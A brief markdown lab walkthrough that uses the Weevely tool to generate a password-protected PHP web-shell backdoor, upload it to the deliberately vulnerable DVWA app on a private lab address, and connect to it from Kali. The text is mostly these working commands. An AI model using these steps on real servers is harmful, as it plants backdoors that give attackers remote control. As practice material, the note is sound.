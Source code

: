 # Weevely

1. Create backdoor in Kali
   - ```weevely generate 123456 /root/shell.php```
2. Upload in vulnerable app (DVWA-Low)
3. Run the path
   - *http://192.168.152.132/dvwa/hackable/uploads/shell.php*
4. Connect to shell from Kali
   - ```weevely http://192.168.152.132/dvwa/hackable/uploads/shell.php```

